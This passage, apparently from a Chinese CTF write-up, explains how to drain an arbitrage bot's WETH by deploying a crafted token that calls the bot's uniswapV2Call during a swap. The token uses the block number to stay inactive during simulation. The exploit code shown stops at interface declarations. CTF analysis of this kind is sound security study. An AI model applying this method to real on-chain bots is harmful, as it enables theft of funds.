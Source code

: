 而模拟与实际执行的区别，主要在于，模拟时会检查 WETH 余额必须增加。

我们暂且先不管这次模拟，先想想，如果直接调用 `arbitrage`，如何让 Bot 吐出余额。

考虑整个调用链：

```plain
bot.arbitrage(...)
	pair2.swap(...)
		WETH.transfer(bot, ...)
		bot.uniswapV2Call(...)
			WETH.transfer(pair1, ...)
			pair1.swap(...)
				some_token.transfer(pair2, ...)
```

图中大部分合约都不在我们的控制之下，但是有一个合约，最后的这个 token，是我们可能可以控制的。

假如构造一个 token，使得它会调用 `bot.uniswapV2Call`，进而转走余额，那么就能通过本题了。

最后，还需要想办法让这个逻辑在模拟时不会触发。经过测试，我发现模拟的时候，block number 还是上一个块的，可以利用这个特性来判断当前环境。

```solidity
pragma solidity =0.8.10;

interface Bot {
    function uniswapV2Call(address sender, uint, uint, bytes calldata data) external;
}

interface IUniswapV2Factory {
    event PairCreated(address indexed token0, address indexed token1, address pair, uint);

    function feeTo() external view returns (address);
    function feeToSetter() external view returns (address);

    function getPair(address tokenA, address tokenB) external view returns (address pair);
    function allPairs(uint) external view returns (address pair);
    function allPairsLength() external view returns (uint);

    function createPair(address tokenA, address tokenB) external returns (address pair);

    function setFeeTo(address) external;
    function setFeeToSetter(address) external;
}

interface IUniswapV2Pair {
    event Approval(address indexed owner, address indexed spender, uint value);
    event Transfer(address indexed from, address indexed to, uint value);

    function name() external pure returns (string memory);
    function symbol() external pure returns (string memory);
    function decimals() external pure returns (uint8);
    function totalSupply() external view returns (uint);
    function balanceOf(address owner) external view returns (uint);
    function allowance(address owner, address spender) external view returns (uint);

    function approve(address spender, uint value) external returns (bool);
    function transfer(address to, uint value) external returns (bool);
    function transferFrom(address from, address to, uint value) external returns (bool);

    function DOMAIN_SEPARATOR() external view returns (bytes32);
    function PERMIT_TYPEHASH() external pure returns (bytes32);
    function nonces(address owner) external view returns (uint);

    function permit(address owner, address spender, uint value, uint deadline, uint8 v, bytes32 r, bytes32 s) external;

```
